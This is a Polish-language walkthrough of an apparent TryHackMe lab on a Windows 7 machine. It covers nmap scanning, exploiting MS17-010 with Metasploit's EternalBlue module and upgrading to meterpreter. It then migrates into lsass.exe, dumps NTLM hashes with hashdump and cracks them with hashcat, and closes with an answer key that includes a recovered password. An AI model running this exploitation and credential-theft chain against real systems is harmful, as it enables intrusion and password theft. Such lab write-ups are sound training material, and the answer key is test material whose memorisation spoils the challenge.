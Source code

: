 1. Na początku musimy klasycznie połączyć się z VPN za pomocą OpenVPN.
Wchodzimy na nasz [profil](https://tryhackme.com/access) pobieramy plik do połączanienia wchodzimy w "/Downloads" i wpisujemy w nowym
terminalu:

``` $ openvpn <Nazwa>.ovpn ```


2. Po tym otwieramy zadanie nr. 1 i odpalamy instancję ( Deploy ).

3. Po tym wszystkim możemy powoli zaczynać. Pierwsze co robimy to skanujemy maszyne:

``` $ nmap -Pn <Adress Ip> ```

Skanowanie pokazuje nam usługi i porty, na których dzialają. Spróbujmy dowiedzieć się o dystrybucji.

```$ nmap -A -T 5 <Adress Ip> -vv```

Widzimy, że maszyna jest postawiona na Windows 7.

4. Teraz musimy się dowiedzieć na co jest podatna maszyna ( ms??-??? ). Więc wpisujemy:

```$ nmap --script vuln <Adress Ip> -vv```

I widzimy smb-vuln-ms17-010 ( ms17-010 ).

5. Teraz spróbujmy uzyskać dostęp na maszynie.

6. Odpalamy Metasploit:

```$ msfconsole```

Szukamy exploit'a na tę podatność w msf:

```$ search ms17–010```

Pokazuje nam się lista dostępnych ataków. My z racji, że znamy dystrybucję wybieramy tego na Windows 7.

``` $ use 2 ``` (windows/smb/ms17_010_eternalblue)

7. Musimy się dowiedzieć jakie opcje musimy uzupełnić do ataku:

```$ show options```

Widzimy RHOST, więc go uzupełniamy:

```$ set RHOSTS <Adress Ip>```

I uruchamiamy skrypt:

```$ run```

Powinniśmy uzyskać dostęp do konsoli!

W razie czego upewnij się że exploit dziąła poprawnie. Kliknij enter i powinneś widzieć shella DOS.
Spróbuj wejść w tło shell'a (CTRL + Z). Jeżeli to się nie uda może być konieczne ponowne uruchomienie maszyny (deploy), lecz przed tym spróbuj znów uruchomić skrypt i zobaczyć czy działa.

Nacisnij enter.

8. Jeżeli jeszcze nie wszedłeś do tła shella (CTRL + Z). Dowiedz się w internecie jak
przekonwertować shell'a na meterpretera w metasploit. Jaka jest nazwa modułu post, którego użyjemy.
( Dokładna ścieżka, podobna do nazwy użytego exploita )

9. Wrócmy najpierw do metasploita:

```$ background```

Zweryfikujmy czy sesja nadal istnieje:

```$ session```

Powinna nam się pokazać informacja o sesji jej typie itp.

10. Spróbujmy zmienić shella na meterpretera:

```$ use multi/manage/shell_to_meterpreter```

Uzupełnij wszystkie brakujące opcje aby przechwycić shell'a:

```
$ set LPORT 1234
$ set SESSION 1
```

Uruchom:

```$ run```

Jeżeli to nie działa spróbuj znów zrobić shell'a.

11. Zobaczmy istniejące sesje:

```$ session```

Powinniśmy zobaczyć drugą sesje, która ma w typie meterpreter.

Spróbujmy do niej się podłączyć:

```$ sessions 2```

Powinniśmy widzieć konsole meterpretera.

12. Sprawdźmy czy eskalowaliśmy do NT AUTHORITY\SYSTEM. Uruchom te polecenie w tym celu:

```$ getsystem```

Możemy swobodnie zmieniać powłoki z shell do meterpretera.

Sprawdźmy kim jesteśmy:

```
$ shell
$ whoami
```

Wróćmy do meterpretera ( CTRL + Z ).

13. To że jesteśmy systemem nie oznacza, że nasz proces też nim jest. Sprawdźmy liste działająch procesów:

```$ ps```

I zapamiętajmy id procesu (PID).

14. Zmigrujmy sobie proces lsass.exe. Mając meterpretera wpiszmy:

```$ migrate 708```

15. Zrzućmy (dump) hasła nie podstawowych użytkowników do późniejszego ich złamania.

W naszym podwyższonym shell'u (meterpreter) uruchomy polecenie:

```$ hashdump```

Spowoduje to dumpowanie wszystkich hashy haseł na komputerze jeżeli mamy do tego odpowiednie uprawnienia.

Który użytkownik nie jest defaultowy?

16. Skopiuj hashe do pliku do złamania. ( to hashe NTLM wklej je tak jak widzisz w konsoli ).

Zorganizujmy hash do łamania. (user:hash <-- ostatni "zlepek liter" w lini po : i przed ::: )

np.
```Administrator:31d6cfe0d16(...)```

17. Ja użyje hashcat'a do złamania hashy.

``` $ hashcat -a 0 -m 1000 <NazwaPlikuZHashami>.txt <SłownikDoŁamania np. rockyou.txt>.txt --force --username --show ```

Po chwili powinniśmy uzyskać hasło do Jon'a (alqfna22)

18. Teraz poszukajmy flag:

1) Pierwsza znajduje się w lokacji C:\flag1.txt

2) Następna w C:\Documents and Settings\Jon\Documents\flag3.txt

3) A ostatnia w C:\Windows\System32\config\flag2.txt

Każdą flagę można pokazać za pomocą ```type```
np. ``` type flag1.txt ```

19. To powinno być na tyle. Powodzenia!

// Uzupełnienie rubryk.

Zadanie 1.

2) 3

3) ms17-010

Zadanie 2.

2) exploit/windows/smb/ms17_010_eternalblue

3) RHOSTS

Zadanie 3.

1) post/multi/manage/shell_to_meterpreter

2) SESSION

Zadanie 4.

1) Jon

2) alqfna22

Zadanie 5.

1) Wpisz flage numer 1

2) Wpisz flage numer 2

3) Wpisz flage numer 3 